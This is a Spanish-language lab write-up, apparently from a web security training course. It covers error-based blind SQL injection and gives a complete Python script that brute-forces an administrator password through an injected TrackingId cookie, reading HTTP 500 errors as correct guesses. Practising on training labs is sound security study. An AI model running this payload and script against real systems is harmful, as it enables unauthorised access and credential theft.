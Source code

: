 En esta clase continuamos con la explotación de la inyección SQL ciega basada en errores, utilizando las técnicas que vimos anteriormente para completar el proceso de extracción del password del administrador.

Aplicamos lo aprendido para automatizar la obtención de cada carácter de la contraseña utilizando Burp Intruder, apoyándonos en respuestas con error (código 500) para saber si el carácter probado es correcto. Se recorre así toda la cadena de forma sistemática.

Es una continuación directa de la clase anterior, donde verás en práctica cómo automatizar este tipo de ataque para obtener credenciales completas en entornos reales.

Solucion
Se pueden hacer los mismos pasos que la anterior laboratorio pero en este caso vamos a hacer un script para que automatize todo lo anterior
Esto en Burp suite obiamente ya con la intervencion de foxy proxy y ya haciendo los pasos de order by
![Pasted_image_20250703143528.png](Imagenes/Pasted_image_20250703143528.png)
codigo
![Pasted_image_20250703143230.png](Imagenes/Pasted_image_20250703143230.png)
![Pasted_image_20250703143151.png](Imagenes/Pasted_image_20250703143151.png)
lo llamaremos (Solo tenemos que modificar el trackingid, session y la url dando ctrl+shift+c nos vamos a storage o almacenamiento y ahi lo veremos todo)sqli.py
#!/usr/bin/env python3 

from pwn import *
from termcolor import colored 
import requests
import signal 
import sys
import string
import time

def def_handler(sig, frame):
    p1.failure("Ataque de fuerza bruta detenido") 
    print(colored(f"\n[!] saliendo...\n", 'red')) 
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits 
p1 = log.progress("SQLI")

def makeSQLI():
    p1.status("Iniciando ataque de fuerza bruta")
    time.sleep(2)

    password = ""
    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                "TrackingId": f"opTM41c5M3tdYiBB'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else'' end from users where username='administrator') ||'",
                "session": "eeBj0F3YK4uowytrMt8WtFXH7U4GcRVo"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0aed008604509bf28095581100aa00eb.web-security-academy.net", cookies=cookies)

            if r.status_code == 500:
                password += character 
                p2.status(password)
                break

    p1.success("Ataque completado")
    print(colored(f"[+] Contraseña encontrada: {password}", 'green'))

if __name__ == '__main__':
    makeSQLI()

resultado
![Pasted_image_20250703152727.png](Imagenes/Pasted_image_20250703152727.png)
![Pasted_image_20250703152658.png](Imagenes/Pasted_image_20250703152658.png)
